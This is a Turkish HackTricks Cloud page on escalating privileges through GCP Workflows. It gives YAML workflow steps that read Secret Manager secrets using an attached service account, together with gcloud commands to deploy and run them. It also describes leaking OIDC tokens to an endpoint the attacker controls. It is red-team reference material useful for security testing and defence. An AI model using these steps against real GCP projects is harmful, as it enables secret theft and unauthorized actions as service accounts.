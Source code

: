 # GCP - Workflows Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Workflows

Temel Bilgiler:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Bildigim kadarıyla, bir Workflow'a bağlı SA'nın kimlik bilgilerini içeren metadata uç noktasına erişim ile bir shell almak mümkün değil. Ancak, Workflow içinde gerçekleştirilmesi gereken eylemleri ekleyerek SA'nın izinlerini kötüye kullanmak mümkündür.

Bağlayıcıların belgelerini bulmak mümkündür. Örneğin, bu [**Secretmanager bağlayıcısının sayfası**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**'dır.** Yan menüde birkaç diğer bağlayıcıyı bulmak mümkündür.

Ve burada bir sırrı yazdıran bir bağlayıcının örneğini bulabilirsiniz:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI'dan güncelleme:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Eğer `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` gibi bir hata alırsanız, sadece **bir dakika bekleyin ve tekrar deneyin**.

Web erişiminiz yoksa, bir Workflow'un tetiklenmesini ve yürütülmesini görmek mümkündür: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Önceki yürütmelerin çıktısını kontrol ederek hassas bilgileri arayabilirsiniz.
{% endhint %}

İzin verilmediği için `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` gibi bir hata alsanız bile, iş akışı oluşturulmuştur.

### OIDC token'ı sızdırma (ve OAuth?)

[**belgelere göre**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) OAuth veya OIDC token'ı ile HTTP isteği gönderecek iş akışı adımlarını kullanmak mümkündür. Ancak, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) durumunda olduğu gibi, Oauth token ile HTTP isteği `.googleapis.com` ana bilgisayarına yapılmalıdır.

{% hint style="danger" %}
Bu nedenle, **kullanıcı tarafından kontrol edilen bir HTTP uç noktasını belirterek OIDC token'ını sızdırmak mümkündür**, ancak **OAuth** token'ını sızdırmak için bu koruma için **bir geçişe** ihtiyacınız olacaktır. Ancak, OAuth token ile ya bağlantılar ya da HTTP istekleri kullanarak **SA adına eylemler gerçekleştirmek için herhangi bir GCP API'si ile iletişim kurmaya devam edebilirsiniz.**
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Bu izin ile `workflows.workflows.create` yerine, zaten mevcut bir iş akışını güncellemek ve aynı saldırıları gerçekleştirmek mümkündür.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

